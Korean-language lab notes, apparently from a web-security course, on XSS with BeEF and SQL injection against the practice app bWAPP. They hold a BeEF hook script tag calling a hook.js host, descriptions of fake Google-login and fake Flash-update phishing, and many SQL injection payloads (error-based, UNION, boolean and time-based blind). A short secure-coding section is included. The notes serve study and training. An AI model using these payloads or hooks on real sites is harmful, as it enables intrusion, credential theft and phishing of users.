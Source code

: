 # XSS - 피싱 사이트 유도

### 실습 환경 구성
* Kali linux
  * 스냅샷 찍기
  * upgrade 하지 않기
    * ruby, python등이 업데이트 되어서 실습환경과 다를 수 있음
    * 새로운 버전은 직접 받아서 하기
* bee-xss 설치

### beef-xss
* hook
  * 낚는다 -> 보안에서는 뭔가를 훔쳐본다는 의미 
* hook script
  *<script src="http://192.168.75.128:3000/hook.js"></script>
* 세션을 가로채는 것이므로 기간이 있음
  * 사용자가 게시물을 나가면 OFFLINE으로 뜸
* hook.js로 GET 요청이 있으면 악성코드 게시물인 것
* beef-xss는 브라우저의 권한 정도만 통제할 수 있음
  * Hooked Domain
    * Create Alert Dialog
      * 피해자 PC의 브라우저에서 alert 띄울 수 있음
    * Create Prompt Dialog
  * Social Engineering
    * google phising
      * 구글 로그인 하면 실제 로그인 실패 페이지로 리다이렉션
        * 아이디, 비번 알 수 있음
    * fake flash update
      * adobe flash 업데이트하라고 나옴
        * install 하면 악성코드가 다운로드 됨

## 보안 가이드
  1. 시큐어 코딩
    * server side code
      * php, jsp, asp
    * 하나의 보안 모듈(파일)을 만들어서 입력시 거쳐가도록 설정
      * functions_external.php의 xss_check_1() 함수
        * <를 &lt로 변환하는 로직이 있음
        * url encoding을 하면 우회할 수 있음
        * 보안가이드 -> htmlspecialchar 함수 사용
  2. 보안 설정
    * index of, 버전 정보 노출
    * apache 보안 설정
  3. 보안 솔루션 도입
    * 사람의 손으로 막을 수 없는 수준일 때

### 에러베이스 SQL Injection
* beebug root mysql password
  * bug
  * use bWAPP;
  * desc movies;
* SQL Injection - GET Search
  * 싱글 쿼터를 입력하면
    * Error 발생
      * 웹서비스 에러가 아닌 DB 에러 메시지가 그대로 노출
    * select * from movies where title=''';
      * 싱글쿼터는 오류
    * select * from movies where title='"';
      * 이거는 오류 안남
  * select * from movies where title='' or 1=1#
    * 1=1이 참이므로 title은 true가 되고 모든 데이터가 나오게 됨
  * beebug에서 search에 대입해보면
      * ' or 1=1#
        * search에 넣으면 다 나옴
      * ' order by 1#
      * ' order by 2#
      * ' order by 3#
      * ' order by 8#
        * 에러발생 -> 실제 컬럼 개수는 7개이다
  * union 사용
    * 기존에 있던 테이블에 더하는 것
    * 'union select 1,2,3,4,5,6,7#
      * 아래쪽에 컬럼의 순서가 나타남
        * 2 3 5 4
    * 'union select 1,2,3,4#
      * 오류발생 컬럼개수가 틀리니
    * 0'union select 1,2,3,4,5,6,7#
        * 이러면 원하는 결과만 나옴
    * 0'union select 1,@@version,3,4,5,6,7#
      * 버전 정보가 나옴
      * 2번에다 넣음
        * 안보이는 1번에 넣으면 표시되지 않음
    * 0'union select 1,@@version,user(),4,database(),6,7#
      * root권한이고 bWAPP 데이터베이스를 사용하는 것을 알 수 있음
    * information schema
      * 본인을 포함한 다른 데이터베이스의 스키마 정보를 담고 있음
      * information schema의 테이블 정보들을 가져오라 할 수 있음

## 쇼핑몰 대상 공격

* 비밀번호 해시값을 얻었음
  * 구글에 검색하면 바로 나온다
    * 보안성이 약한 sha1 라고 함
  * kali에서 hash-identifier 사용

## 블라인드 인젝션 공격
* sql인젝션이 가능한지 아닌지를 판단 가능
* ' or 1=1 and length(database())=1#
  * false
* ' or 1=1 and length(database())=5#
  * true
  * 뒤에가 틀리면 거짓임
* ' or 1=1 and substring(database(), 1, 1)='a'#
* ' or 1=1 and substring(database(), 1, 1)='b'#
  * true
* ' or 1=1 and substring(database(), 2, 1)='w'#
* ' or 1=1 and ascii(substring(database(), 1, 1))=97#
* ' or 1=1 and ascii(substring(database(), 1, 1))>97#

## 타임베이스 블라인드 SQL Injection

* ` or 1=1 and sleep(5)#
* ` or 1=1 length(database())=5 and sleep(1)#